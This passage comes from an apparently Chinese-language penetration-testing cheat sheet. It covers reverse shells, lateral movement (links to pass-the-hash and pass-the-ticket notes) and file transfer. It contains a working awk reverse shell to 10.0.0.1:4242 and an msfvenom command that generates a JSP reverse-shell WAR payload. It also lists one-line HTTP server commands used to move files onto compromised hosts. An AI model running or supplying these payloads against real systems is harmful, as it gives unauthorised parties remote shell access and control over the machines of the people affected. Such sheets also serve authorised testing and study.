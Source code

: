 **Awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

**War**
```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

---

# 横向扩展

## PTH/PTK/PTT

- [PTH](../Windows渗透.md#PTH)
- [PTT](../Windows渗透.md#PTT)

---

## 文件传输

### web-servers

以下部分内容来自 部分内容来自 部分内容来自项目 <sup>[[willurd/web-servers.md](https://gist.github.com/willurd/5720255#file-web-servers-md)]</sup>

在当前目录起个 8000 端口的 HTTP 服务

- Python 2.x
    ```bash
    python -m SimpleHTTPServer 8000
    ```

- Python 3.x
    ```bash
    python -m http.server 8000
    ```

- Twisted <sub><sup>(Python)</sup></sub>
    ```bash
    twistd -n web -p 8000 --path .
    ```
    or
    ```bash
    python -c 'from twisted.web.server import Site; from twisted.web.static import File; from twisted.internet import reactor; reactor.listenTCP(8000, Site(File("."))); reactor.run()'
    ```
